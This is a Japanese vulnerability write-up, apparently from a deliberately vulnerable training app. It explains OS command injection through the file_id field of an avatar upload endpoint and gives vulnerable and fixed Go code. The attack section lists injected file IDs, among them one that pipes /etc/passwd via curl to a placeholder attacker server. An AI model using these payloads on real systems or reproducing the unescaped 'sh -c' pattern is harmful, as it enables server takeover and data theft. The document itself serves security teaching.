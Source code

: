# OSコマンドインジェクション（アバターアップロード機能）

## 脆弱性の概要
アバターアップロード機能において、ユーザーが指定したファイルIDがウィルススキャン処理で適切にエスケープされずにOSコマンドに渡されるため、OSコマンドインジェクションの脆弱性が存在します。攻撃者はこの脆弱性を悪用して、サーバー上で任意のコマンドを実行することができます。

アバター画像データはデータベースに直接保存されますが、ウィルススキャンのために一時的にファイルシステムに保存される際に脆弱性が発生します。

## 影響
この脆弱性が悪用された場合、以下のような影響があります：
- サーバー上での任意のコマンド実行
- 機密情報の漏洩
- サーバーの乗っ取り
- サービス拒否攻撃（DoS）

## 攻撃方法
1. プロフィール編集画面でアバター画像をアップロードする際に、ファイルIDに悪意のあるコマンドを含める
    -  例えば、以下のようなファイルIDを使用する：
        - `avatar.jpg; ls -la /`
        - `avatar.jpg && cat /etc/passwd`
        - `avatar.jpg | curl -X POST -d @/etc/passwd https://攻撃者のサーバー/`
2. curlでファイルアップロードを実行する例
```bash
curl 'http://localhost:9090/api/profile/avatar' \
  -H 'Authorization: Bearer alice_token' \
  -H 'Content-Type: application/json' \
  --data-raw '{
    "file_id":"avatar.jpg && cat /etc/passwd",
    "image_data":"R0lGODlhAQABAIAAAP///////yH+BnBzYV9sbAAh+QQBCgABACwAAAAAAQABAAACAkwBADs="
  }'
```
4. `malware_scan`というフィールドにOSコマンドの出力結果が返却されます


## 実装の詳細
アバター画像データはBase64エンコードされた形式でデータベースに直接保存されます。ただし、ウィルススキャンを行うために、一時的にファイルシステムに保存されます。この一時ファイルは処理完了後に削除されますが、ウィルススキャン処理中に脆弱性が発生します。

## 脆弱なコード
```go
func (h *Handler) UploadAvatar(c *gin.Context) {
    // ... 省略 ...
    
	// 一時ファイルの保存（ウィルススキャン用）
	tempFileName := fmt.Sprintf("%d.png", time.Now().Unix())
	filePath := filepath.Join(uploadDir, tempFileName)
	if err := os.WriteFile(filePath, imageData, 0644); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{"error": "Failed to save temporary file"})
		return
	}
	defer os.Remove(filePath) // 処理完了後に一時ファイルを削除

	// 脆弱性: OSコマンドインジェクション
	// ユーザー入力（FileID）を適切にエスケープせずにコマンドに渡している
	scanResult, err := scanFile(filePath, req.FileID)
	if err != nil {
		c.JSON(http.StatusBadRequest, gin.H{"error": "Virus detected or scan failed", "scan_result": scanResult})
		return
	}
    
    // ... 省略 ...
}

func scanFile(filePath string, fileID string) (string, error) {
	// 脆弱性: OSコマンドインジェクション
	// ユーザー入力（fileID）を適切にエスケープせずにコマンドに渡している
	cmd := exec.Command("sh", "-c", "echo 'Scanning file: ' && echo "+fileID)
	output, err := cmd.CombinedOutput()
	if err != nil {
		return string(output), fmt.Errorf("ウィルスが検出されました: fileID=%s, filePath=%s", fileID, filePath)
	}
	return string(output), nil
}

```

## 対策方法
1. OSコマンドを使用せずに、プログラム内部でファイルの検査を行う
2. 必要に応じてOSコマンドを使用する場合は、以下の対策を行う：
   - ユーザの入力値は基本的にコマンドライン引数に渡さない
   - ユーザの入力値をバリデーションする
   - ユーザー入力を適切にエスケープする
   - シェル（sh, bash）を介さずに直接コマンドを実行する

### 修正例
```go
// データベースに直接保存する実装
func (h *Handler) UploadAvatar(c *gin.Context) {
    // ... 省略 ...
    
    // 一時ファイルを作成せずにメモリ上でスキャン
    // または、一時ファイルを作成する場合は安全なファイル名を使用
    tempFile, err := os.CreateTemp("", "safe-prefix-*.jpg")
    if err != nil {
        c.JSON(http.StatusInternalServerError, gin.H{"error": "Failed to create temporary file"})
        return
    }
    defer os.Remove(tempFile.Name())
    
    if _, err := tempFile.Write(imageData); err != nil {
        c.JSON(http.StatusInternalServerError, gin.H{"error": "Failed to write to temporary file"})
        return
    }
    tempFile.Close()
    
    // 安全なスキャン処理
    if err := scanFileSafely(tempFile.Name()); err != nil {
        c.JSON(http.StatusBadRequest, gin.H{"error": "Virus detected or scan failed"})
        return
    }
    
    // ... 省略 ...
}

func scanFileSafely(filePath string) error {
    // 修正: 引数を配列として渡し、シェルを介さずに実行
    cmd := exec.Command("grep", "-q", "virus_signature", filePath)
    err := cmd.Run()
    if err != nil {
        if exitErr, ok := err.(*exec.ExitError); ok && exitErr.ExitCode() == 1 {
            // grepコマンドがパターンを見つけられなかった場合（終了コード1）は正常とみなす
            return nil
        }
        log.Printf("ウィルススキャンエラー: %v", err)
        return err
    }
    return fmt.Errorf("ウィルスが検出されました")
}
```

## 参考情報
- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)
